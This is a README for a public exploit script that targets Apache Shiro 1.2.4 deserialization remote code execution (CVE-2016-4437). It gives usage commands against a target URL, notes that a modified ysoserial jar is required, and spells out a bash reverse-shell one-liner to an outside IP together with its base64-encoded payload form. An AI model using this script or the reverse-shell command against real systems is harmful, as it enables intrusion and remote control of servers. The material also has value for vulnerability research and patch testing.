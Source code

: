 # Readme
shiro &lt;= 1.2.4 反序列化远程命令执行利用脚本  
默认仅适配Linux，适配Windows  
python脚本需要调用ysoserial-sleep.jar，ysoserial-sleep.jar文件并不是原版的，修改了部分功能，故不要使用原版ysoserial，否则将无法检测  
```
+-------------------------------------------------------------------------------------------------------+
+ DES: By zhzyker as https://github.com/zhzyker/exphub                                                  +
+      Vuln Name: CVE-2016-4437 | Shiro 550  |  Shiro 1.2.4                                             +
+                                                                                                       +
+      Nc shell need encode command: http://www.jackson-t.ca/runtime-exec-payloads.html                 +
+      Original: bash -i >&/dev/tcp/1.1.1.1/233 0>&1                                                    +
+      Encoding: bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMjMzIDA+JjE=}|{base64,-d}|{bash,-i}  +
+-------------------------------------------------------------------------------------------------------+
+ USE: python3 <filename> <url>                                                                         +
+ EXP: python3 shiro-1.2.4_rce.py http://1.1.1.1:8080                                                   +
+ VER: Apahce Shiro <= 1.2.4                                                                            +
+-------------------------------------------------------------------------------------------------------+
```

# RCE

![images](https://github.com/zhzyker/shiro-1.2.4-rce/blob/master/image/1.gif)
![images](https://github.com/zhzyker/shiro-1.2.4-rce/blob/master/image/2.gif)
